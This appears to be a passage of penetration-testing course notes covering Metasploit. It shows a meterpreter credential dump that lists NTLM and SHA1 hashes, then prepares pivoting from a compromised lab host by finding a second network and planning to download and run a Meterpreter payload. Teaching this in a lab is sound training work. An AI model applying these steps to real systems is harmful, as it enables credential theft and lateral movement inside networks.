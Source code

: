 ```
    wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)

meterpreter > creds_msv
[+] Running as SYSTEM
[*] Retrieving msv credentials
msv credentials
===============

Username  Domain  NTLM                              SHA1
--------  ------  ----                              ----
luiza     ITWK01  167cf9218719a1209efcfb4bce486a18  2f92bb5c2a2526a630122ea1b642c46193a0d837
...
```

### Pivoting with Metasploit
The ability to pivot to another target or network is a vital skill for every penetration tester
+ In _Port Redirection and Pivoting_, we learned various techniques to perform pivoting
+ Instead of using these techniques manually, we can also use Metasploit to perform them

As in the previous sections, we'll connect to the bind shell on port 4444 on the machine ITWK01
+ Let's assume we are currently gathering information on the target. In this step, we'll identify a second network interface
+ Let's assume we are currently gathering information on the target
+ In this step, we'll identify a second network interface
```
C:\Users\luiza> ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::c489:5302:7182:1e97%11
   IPv4 Address. . . . . . . . . . . : 192.168.50.223
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.50.254

Ethernet adapter Ethernet1:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::b540:a783:94ff:89dc%14
   IPv4 Address. . . . . . . . . . . : 172.16.5.199
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 

C:\Users\luiza>
```
+ Above shows that the second interface has the assigned IP 172.16.5.199
+ We can try to identify other live hosts on this second network by leveraging methods from active information gathering
+ Before we do so, let's start a Meterpreter shell on our compromised target by downloading and executing **met.exe** as well as starting the corresponding multi/handler as we did before
